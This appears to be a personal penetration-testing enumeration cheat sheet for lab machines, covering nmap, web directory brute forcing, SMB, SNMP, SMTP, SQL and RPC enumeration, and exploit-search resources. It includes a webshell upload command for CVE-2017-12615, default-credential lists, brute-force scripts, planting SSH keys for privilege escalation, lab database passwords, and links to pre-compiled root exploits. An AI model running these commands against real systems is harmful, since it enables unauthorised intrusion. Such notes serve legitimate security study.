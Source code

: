 **My Enumeration List**
	 - http://www.0daysecurity.com/penetration-testing/enumeration.html

	Nmap 
		- Generic
			- nmap -A ipaddress
			- nmap -Pn -sT -T5 -sV 10.11.1.13
			- nmap -Pn -sU -sV 10.11.1.13
			- #shorter # nmap -sU --top-ports 200 -sV -Pn 10.11.1.71
			- # nmap -Pn -sT -sU -sV 10.11.1.13 - takes forever
			- unicornscan -mT 10.10.10.117
			- unicornscan -mU 10.10.10.117
		○ Generic script
			§ nmap -Pn -pPortsdiscovered --script=vuln,exploit 10.11.1.227
		○ onetwopunch
			§ ./onetwopunch.sh -t target.txt -p all -i tap0 -n -sV
			§ https://github.com/superkojiman/onetwopunch
		
	
	HTTP:
    - Note: Whenever you get any credentials, use them for every user and every access you know of
		○ Browse manually
			§ robots.txt
			§ Index.html/asp/php/apsx
			§ View-source : Search for passwords!
			§ curl http://10.11.1.71 -s -L | html2text -width '99' | uniq
			§ login.html/...
			§ Version information - view source or search for license/readme(dirbust)
		○ Check for upload functionality!!!!
			§ Upload payloads are in /ftphome
		○ whatweb -v http://10.11.1.227:80
			§ whatweb -a 3 http://10.11.1.230
		○ nikto -host 10.11.1.227
			§ Nikto -C all ipaddress  --- too long
		○ Admin Screens
			§ Try Default username:password from Web
			§ Or usual combinations
				□ admin \ "" (blank), admin \ admin, admin \ password
				□ root \ "" (blank), root \ root, root \ password
				□ guest:guest
				□ Find possible usernames from blog posts or somewhere from the website
		○ nmap -sV -Pn -vv -p80 --script=http-vhosts,http-userdir-enum,http-apache-negotiation,http-backup-finder,http-config-backup,http-default-accounts,http-methods,http-method-tamper,http-passwd,http-robots.txt
		○ For CVE-2017-12615, curl -X PUT "http://10.10.10.95:8080/" --upload-file webshell
		○ WebDav Enabled
			§ nmap -p80 --script=http-iis-webdav-vuln.nse 10.11.1.227
			§ davtest -url http://10.11.1.227/
				□ davtest -move -url http://10.11.1.14/
			§ cadaver 10.11.1.13
		○ Brute Force
			§ dirb http://10.11.1.227/
			§ dirb http://10.11.1.49 /usr/share/dirb/wordlists/vulns/iis.txt
			§ dirb http://10.11.1.49 /usr/share/dirb/wordlists/vulns/iis.txt
			§ gobuster -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
			§ gobuster -u http://10.11.1.10/ -w /usr/share/seclists/Discovery/Web_Content/iis.txt -s '200,204,301,302,307,403,500' -e
			§ gobuster -u http://10.11.1.71/ -w /usr/share/seclists/Discovery/Web_Content/cgis.txt -s '200,204,301,302,307,403,500' -e
			§ gobuster -u http://10.11.1.10/ -w /usr/share/seclists/Discovery/Web_Content/CMS/ColdFusion.fuzz.txt -s '200,204,301,302,307,403,500' -e
			§ gobuster -u http://10.10.10.105/ -w /usr/share/dirb/wordlists/common.txt -s '200,204,301,302,307,403,500' -e
			
			§ Try with other Wordlists too! Based on the technology used! ---Don't really need this since the answer is much simpler
			§ Wordlists 
				§ DirB - /usr/share/dirb/wordlists/
				§ wfuzz - /usr/share/wfuzz/wordlist/
				§ SecList - /usr/share/seclists/
			§ Gobuster limitation is that it does not go beyond level one brute forcing
	
	SSH
		○ Banner and Key fingrprint grabbing
			§ nmap -sT -Pn -p22 -sV --script=ssh-hostkey.nse 10.11.1.71
			§ ssh -v root@10.11.1.71
		§ SSH is known being 'stable' service - (which we know from researching CVEs).
		§ Privesc - Add a new key to /home/<user>/.ssh/authorizedkeys and ssh as the user
	
	FTP
		○ Authenticate Using anonymous login!
			§ Web browse the entire directory structure
			§ Try put, send and get 
		○ nmap -sT --script=ftp* -p21,20 10.11.1.227
			§ nmap --script=ftp-anon.nse,ftp-bounce.nse,ftp-libopie.nse,ftp-proftpd-backdoor.nse,ftp-syst.nse,ftp-vsftpd-backdoor.nse,ftp-vuln-cve2010-4221.nse,tftp-enum.nse -p21,20 10.11.1.227
		○ Use PASV mode in FTP when transferring files
	
	SMB
		○ enum4linux -a 10.11.1.8
		○ rpcclient -U "" 10.11.1.227  --- Null Logon
		○ nmap -sT -sU --script=smb* -p445,137,138,139 10.11.1.227
			§ nmap -sT -sU --script=smb-enum-users.nse,smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-ls.nse,smb-os-discovery.nse,smb-mbenum.nse -p445,137,138,139 10.11.1.227
		○ Everything w/o brute
			§ nmap -sT -sU --script smb-brute.nse,smb-double-pulsar-backdoor.nse,smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-flood.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-protocols.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve-2017-7494.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-ms17-010.nse,smb-vuln-regsvc-dos.nse,smb2-capabilities.nse,smb2-security-mode.nse,smb2-time.nse,smb2-vuln-uptime.nse -p445,137,138,139 10.11.1.227
		○ Note: 138,137 - UDP, 137,139-TCP (netbios) and 445 -TCP 
	
	SNMP 
		○ snmp-check -c public 10.11.1.227
		○ ./snmpcheck-1.9.rb -c public 10.11.1.227
		○ perl ../common/scripts/snmpcheck-1.8.pl -t 10.11.1.227 -c public
		○ Try other known community strings like private
	
	SMTP
		○ nmap -sT -p21,25 --script=smtp* 10.11.1.227
			§ nmap -sT --script=smtp-brute.nse,smtp-commands.nse,smtp-enum-users.nse,smtp-ntlm-info.nse,smtp-open-relay.nse,smtp-strangeport.nse,smtp-vuln-cve2010-4344.nse,smtp-vuln-cve2011-1720.nse,smtp-vuln-cve2011-1764.nse -p21,25 10.11.1.227
	
	POP3 
		○ If you can login then [Using TELNET!]
			§ USER user
			§ PASS password
			§ LIST
			§ RETR 1
		○ nmap -sT -p110,995 --script=pop3-capabilities,pop3-ntlm-info 192.168.37.67
		
	SQL
		○ Search credentials in Web Application!!!
		○ Find credentials and try authenticating to it
			§ sqsh -D bankdb -U sa -P poiuytrewq -S 10.11.1.31
			§ mysql -u phpmyadmin -p zaq1xsw2cde3 -h 127.0.0.1 phpmyadmin
		○ nmap -sT mysql-enum.nse,mysql-info.nse -p3306 10.11.1.227
		○ See ralph
		○ Dig deeper in all Databases found!!
	
	RPC
		○ nmap -sT -sU --script=msrpc-enum.nse,rpc-grind.nse,rpcap-info.nse,rpcinfo.nse,xmlrpc-methods.nse -p111 10.11.1.227
		
		MS DCE RPC 
			§ https://security.stackexchange.com/questions/93542/enumeration-and-ms-dcerpc/96369
			§ Metasploit modules - endpoint_mapper, management, tcp_dcerpc_auditor
		
		Unix RPC
			§ http://etutorials.org/Networking/network+security+assessment/Chapter+12.+Assessing+Unix+RPC+Services/12.1+Enumerating+Unix+RPC+Services/
			§ rpcinfo -p 192.168.0.50  - query portmapper
			§ nmap -sR 10.0.0.9 --- redundant now
	
	JAVA RMI
		○ nmap -sS -p1100,49157,49200 -sV --script=rmi-dumpregistry 10.11.1.73
		○ nmap -sS -p1100,49157,49200 -sV --script=rmi-vuln-classloader 10.11.1.73
	
	DNS 
		○ dnsrecon -d thinc.local -t zonewalk
		○ dnsrecon -d megacorpone.com -t axfr


**Search exploits**
	• FIRST - Find version information 
	• Use searchsploit
	• Use metasploit
	• Google!!

**Finding exploit code**
	• http://www.exploit-db.com
	• http://1337day.com
	• http://www.securiteam.com
	• http://www.securityfocus.com
	• http://www.exploitsearch.net
	• http://metasploit.com/modules/
	• http://securityreason.com
	• http://seclists.org/fulldisclosure/
	• http://www.google.com


**Finding more information regarding the exploit**
	• http://www.cvedetails.com
	• http://packetstormsecurity.org/files/cve/[CVE]
	• http://cve.mitre.org/cgi-bin/cvename.cgi?name=[CVE]
	• http://www.vulnview.com/cve-details.php?cvename=[CVE]


**(Quick) "Common" exploits**
	- Warning. Pre-compiled binaries files. Use at your own risk.
	• http://web.archive.org/web/20111118031158/http://tarantula.by.ru/localroot/
	• http://www.kecepatan.66ghz.com/file/local-root-exploit-priv9/
	
	

